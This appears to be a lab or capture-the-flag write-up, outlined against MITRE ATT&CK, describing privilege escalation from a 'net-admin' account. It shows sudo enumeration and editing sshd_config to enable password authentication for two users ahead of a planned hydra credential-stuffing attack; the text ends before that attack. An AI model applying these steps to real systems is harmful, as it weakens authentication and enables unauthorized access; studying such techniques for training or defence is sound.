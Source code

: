 ## Privilege Escalation (MITRE ATT&CK Outline)

| Technique ID                                               | Name                                 | Tool(s) Used         |
|------------------------------------------------------------|--------------------------------------|----------------------|
| [T1548](https://attack.mitre.org/techniques/T1548/003/)    | Abuse Elevation Control Mechanism    | Sudo Privileges      |
| [T1556](https://attack.mitre.org/techniques/T1556/)        | Modify Authentication Process        | /etc/ssh/sshd_config |
| [T1110](https://attack.mitre.org/techniques/T1110/004/)    | Credential Stuffing                  | hydra                |

---

### net-admin, Lateral Movement to sys-admin

#### Enumeration of the net-admin profile  

**Steps**

**1. Enumerate sudo privileges for `net-admin`:**
```bash
sudo -l
```
<details><summary>Sudo Privileges</summary></details>

**2. View SSH configuration match blocks:**
```bash
sudo /usr/bin/vim /etc/ssh/sshd_config
```
<details><summary>SSH Match Block Configuration</summary></details>

---

#### What We Know:
- `net-admin` has sudo privileges tied to SSH service management and configuration files.
- Password authentication is disabled for `net-admin` and `sys-admin`.

#### What We Have:
- Sudo privileges for editing SSH configuration.

#### What We Can Do:
- Modify SSH configuration to enable password authentication for `net-admin` and `sys-admin`.

---

### Conducting a Credential Stuffing Attack

#### Steps:

**1. Modify SSH Match Blocks:**
```bash
sudo /usr/bin/vim /etc/ssh/sshd_config
```
Adjust the configuration:
```plaintext
# Enable password authentication for net-admin and sys-admin
Match User net-admin
    PasswordAuthentication yes
    PubkeyAuthentication yes

Match User sys-admin
    PasswordAuthentication yes
    PubkeyAuthentication yes
```
